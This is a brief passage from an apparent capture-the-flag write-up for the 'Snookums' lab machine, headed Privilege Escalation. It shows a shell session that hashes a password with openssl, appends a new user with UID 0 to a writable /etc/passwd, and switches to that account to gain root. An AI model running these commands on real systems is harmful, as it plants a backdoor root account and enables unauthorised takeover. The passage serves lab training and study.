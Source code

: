 https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/snookums

### Privilege Escalation

```bash
[michael@snookums ~]$ openssl passwd -1 -salt password password 
$1$password$Da2mWXlxe6J7jtww12SNG/
[michael@snookums ~]$ echo 'alvin:$1$password$Da2mWXlxe6J7jtww12SNG/:0:0:alvin:/root:/bin/bash' >> /etc/passwd
[michael@snookums ~]$ su alvin
```